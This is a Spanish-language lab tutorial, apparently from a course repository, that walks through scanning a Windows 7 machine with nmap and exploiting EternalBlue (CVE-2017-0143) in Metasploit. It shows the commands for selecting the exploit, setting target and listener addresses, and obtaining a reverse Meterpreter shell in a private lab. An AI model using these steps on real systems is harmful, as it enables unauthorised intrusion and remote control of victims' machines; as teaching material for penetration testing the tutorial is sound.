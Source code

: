 # Uso Básico de Metasploit – Explotación EternalBlue en Windows

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red como hemos aprendido anteriormente y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado: 

![image.png](./imagenes/image.png)

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:

![image.png](./imagenes/image%201.png)

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![image.png](./imagenes/image%202.png)
    
    ![image.png](./imagenes/image%203.png)
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![image.png](./imagenes/image%204.png)
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![image.png](./imagenes/image%205.png)
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        ![image.png](./imagenes/image%206.png)
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![image.png](./imagenes/image%207.png)
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![image.png](./imagenes/image%208.png)
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![image.png](./imagenes/image%209.png)
        
        ![image.png](./imagenes/image%2010.png)
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![image.png](./imagenes/image%2011.png)
        
        ![image.png](./imagenes/image%2012.png)
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![image.png](./imagenes/image%2013.png)
        
        ![image.png](./imagenes/image%2014.png)
        
        ![image.png](./imagenes/image%2015.png)
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.